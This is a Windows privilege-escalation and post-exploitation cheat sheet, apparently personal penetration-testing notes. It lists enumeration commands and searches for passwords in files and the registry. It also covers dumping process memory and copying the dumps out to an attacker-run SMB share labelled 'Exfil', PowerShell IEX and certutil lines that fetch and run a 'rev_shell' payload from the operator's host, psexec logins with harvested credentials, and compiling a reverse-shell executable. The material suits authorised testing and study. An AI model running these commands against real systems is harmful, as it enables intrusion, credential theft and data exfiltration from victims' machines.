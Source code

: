 # Windows Enumeration

## If the host is running a webapp

	Go look at the webapp dir to find configs and he code
	Go look at the database
	Look at the configs of the other apps running: ftp, mails, etc
	Search users home with:
		get-childitem -recurse -force -include *.txt,*.ini,*.xml,*,json,*.cfg
		get-childitem -recurse -force -include *.txt,*.ini,*.xml,*,json,*.cfg | select-string password

## Basic System Information

	echo %USERNAME%		Print current user
	whoami /priv		Displays current user privileges
		Interesting Privileges:
			SeDebugPrivilege
			SeTakeOwnership
			SeBackupPrivilege
				https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
			SeLoadDriverPrivilege
			Se Impersonate and SeAssignPrimaryToken
				https://github.com/ohpe/juicy-potato
	whoami /priv in cmd as admin
	whoami /groups		Displays current user groups
		Interesting Groups:
			Backup Operators
			Event Log Readers
			DnsAdmins
			Server Operators
	whoami /groups in cmd as admin
	whoami /all
	net user		Print all users
	net localgroup		Print all groups
	net localgroup administrators
	net localgroup <groupname>		Prints information of group
	tasklist /svc		Gives a better idea of what applications are running on the system. Prints the name of executables and services running
		https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist

	set		Prints env variables including PATH
	
	wmic product get name		Get installed programs
		or using powershell
		Get-WmiObject -Class Win32_Product |  select Name, Version

	netstat -ano		Display active tcp and udp connections
	query user		Display active users
	net accounts		Prints password policy

	get-process		Enumerates running processes

		Use procdump https://learn.microsoft.com/en-us/sysinternals/downloads/procdump , to dump the memory of any interesting running process

			.\procdump.exe -ma <process_id> <output_file>
		
		We can use an smb share to download the output_file in cmd:

			on our local machine we do

			smbserver.py -smb2support -username guest -password guest share <path_to_folder_we_gonna_share>

			smbserver is a script from impacket

			on the remote machine we do

			net use x: \\<our_local_ip>\share /user:guest guest #

			and now we copy the dump file

			cmd /c "copy <filen_name>.dmp X:\"

		We can do the same in powershell:

			impacket-smbserver.py -smb2support share <path_to_folder_we_want_to_share>

			in powershell

			New-PSDrive -Name Exfil -PSProvider -FileSystem -Root "\\10.10.14.8\share"

			then copy the file
			
			copy users.db exfil:

Get process information by pid:

	Get-WmiObject Win32_Process -Filter "ProcessId = <PID>"
	Get-Process -Id <PID>

	cmdkey /list	Lists stored credentials

## Gather Network Information

	ipconfig /all
	arp -a
	route print

## Enumerate Protections

	Get-MpComputerStatus
	Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
	Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone 		Tests Applocker policy


## System info

Check if Windows version has any known vulnerability (also check the patches applied)

		https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix
		systeminfo #Prints information of the system, including hotfixes applied
		systeminfo | findstr /B /C:"OS Name" /C:"OS Version" #Get only that information

		If systeminfo doesn't display hotfixes, they may be queriable with WMI using the WMI-Command binary with QFE (Quick Fix Engineering) to display patches.

		wmic qfe get Caption,Description,HotFixID,InstalledOn #Patches
		wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE% #Get system architecture

		[System.Environment]::OSVersion.Version #Current OS version
		Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid} #List all patches
		Get-HotFix | ft -AutoSize
		Get-Hotfix -description "Security update" #List only "Security Update" patches


## Search for passwords

	reg query HKLM /f password /t REG_SZ /s
	reg query HKCU /f password /t REG_SZ /s

## Check communication through processess using pipes

	pipelist.exe /accepteula		enumerate instances of named pipes
		https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist
	Get-ChildItem \\.\pipe\		enumerate instances of named pipes with powershell
	accesschk.exe /accepteula \\.\Pipe\<name_of_pipe> -v		Enumerate permissions of pipe. We are looking for a pipe we have WRITE permissions for our user
		https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
	accesschk.exe -w \pipe\* -v		Enumerates all pipes that have WRITE permission
	Use powersploit powerup to check miss configurations
		https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
		IEX(New-Object Net-WebClient).downloadString("http://myhostwiththescript/PowerUp.ps1")
		Then run is ps:
		Invoke-AllChecks


## Check weak permission

	Use the sharpup too to check service binaries suffering from weak ACLS

		SharpUP.exe audit
			https://github.com/GhostPack/SharpUp/
	Check permissions using icacls
		https://ss64.com/nt/icacls.html


## If we are in a Active Directory Environment

	Use snaffler to search for credentials.

## Remote Login with username and password

We can try doing remote logins with useranmes and passwords using a script from impacket

	psexec.py '<username>:<password>@<remote_host_ip>'

Use impacket-wmiexec with rpc port 135:

	https://github.com/Andre92Marcos/tools/blob/master/impacket/wmiexec.md


## Try WinPeas

	https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS


## Other Info

Download and execute file using powershell:

	powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<localhostip>/rev_shell")'

Download file:

	certutil.exe -urlcache -f http://<localhostip>/rev_shell <path_to_where_file_is_gonna_be_saved>

Good dir to save, download and write files:

	C:\Users\Public\

## Payloads

Use https://github.com/Andre92Marcos/myScripts/blob/main/rev_shell_exe.c to generate a reverse shell exe:

	x86_64-w64-mingw32-gcc rev_shell_exe.c -o rev_shell.exe

## More info

	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
	https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
